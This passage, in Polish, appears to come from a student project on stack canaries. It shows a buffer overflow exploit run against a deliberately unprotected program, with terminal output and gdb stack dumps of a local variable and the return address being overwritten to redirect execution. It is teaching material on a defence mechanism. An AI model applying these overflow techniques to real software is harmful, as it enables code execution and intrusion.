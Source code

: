 </font>

Testy zacząłem od programu skompilowanego bez zabezpieczeń. Jak widać na wydruku z terminala, eksploit wykonał swoje zadanie i nic nie stanęło na jego drodze. Przepełnienie bufora nadpisało odpowiednią zmienną oraz adres powrotu funkcji, który teraz wskazywał na funkcję  `malicious`. Komunikat `Segmentation fault (core dumped)` nie oznacza nawet ostrzeżenia o ewentualnym wykryciu przepełnienia bufora, a jedynie informuje, że nie udało się wykonać instrukcji, na którą wskazywał instruction pointer po wykonaniu funkcji `malicious`. 

<font size=1>

```
mb@ubuntu:~/Desktop/projekt_bso/StackCanaries$ python3 exploit.py | ./unsafe
Local variable modified!!!
Code flow changed!!!
Segmentation fault (core dumped)
```

</font>

Na poniższym wydruku widać fragment stosu przed i po wywołaniu funkcji `gets`. Tak jak można się było spodziewać, zmienna `some_variable` została umieszona na stosie za buforem, a za bezpośrednio za nią znajdowały się `SFP` i `RET`. 

<font size=1>

```assembly
=> 0x401193 <main+38>:	callq  0x401060 <gets@plt>
0x7fffffffdfb0:	0x00007fffffffe108	0x00000001000000c2 
0x7fffffffdfc0:	0x00007fffffffdfe7	0x00007ffff7e83b4c # -| 
0x7fffffffdfd0:	0x00007fffffffe030	0x000000000040120d #  | bufor
0x7fffffffdfe0:	0x0000000000000000	0x0000000000000000 #  |
0x7fffffffdff0:	0x00000000004011c0	0x0000000000401070 # -|
0x7fffffffe000:	0x00007fffffffe100	0x0000000700000000 #
#                                         ^^^^^^^^ <- some_variable (4 bajty)
0x7fffffffe010:	0x00000000004011c0	0x00007ffff7df3cb2
#        SFP -> ^^^^^^^^^^^^^^^^^^      ^^^^^^^^^^^^^^^^^^ <- RET

Breakpoint 1, 0x0000000000401193 in main ()
(gdb) c
Continuing.
=> 0x401198 <main+43>:	mov    -0x4(%rbp),%eax
0x7fffffffdfb0:	0x00007fffffffe108	0x00000001000000c2 
0x7fffffffdfc0:	0x4141414141414141	0x4141414141414141 # -|
0x7fffffffdfd0:	0x4141414141414141	0x4141414141414141 #  | bufor
0x7fffffffdfe0:	0x4141414141414141	0x4141414141414141 #  |
0x7fffffffdff0:	0x4141414141414141	0x4141414141414141 # -|
0x7fffffffe000:	0x4242424242424242	0x4343434342424242 
#                                         ^^^^^^^^ <- some_variable (4 bajty)
0x7fffffffe010:	0x4444444444444444	0x0000000000401156 #
#        SFP -> ^^^^^^^^^^^^^^^^^^      ^^^^^^^^^^^^^^^^^^ <- RET

Breakpoint 2, 0x0000000000401198 in main ()
```
